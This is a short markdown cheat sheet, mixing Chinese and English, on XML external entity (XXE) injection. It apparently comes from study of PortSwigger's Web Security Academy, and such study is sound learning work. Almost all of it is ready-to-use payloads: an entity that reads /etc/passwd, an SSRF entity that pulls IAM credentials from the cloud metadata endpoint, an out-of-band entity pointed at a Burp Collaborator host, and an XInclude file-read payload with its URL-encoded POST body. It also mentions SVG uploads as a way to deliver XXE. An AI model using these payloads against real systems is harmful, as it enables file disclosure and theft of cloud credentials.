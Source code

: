 # XXE

https://portswigger.net/web-security/xxe#what-is-xml-external-entity-injection

## Payload

### Read file
加入 external entity
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

在內容中插入
```
&xxe;
```

### SSRF

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

也可以用 OOB 確認弱點是否存在

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://burp-collaborator"> ]>
```

### Read file - XInclude

沒辦法控制整個 XML 內容的情況下，可以使用 `XInclude` 試試看 (`XInclude` 預設關閉)

插入 `&xxe;` 會噴錯
```
productId=%26xxe;&storeId=1
```

引用 `XInclude` namespace 後呼叫 XInclude
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

POST
```
productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude">
<xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```


### 上傳圖片 svg 讀取檔案

上傳圖片功能可能接受 svg 格式，而 svg 由 XML 組成，有機會可以攻擊
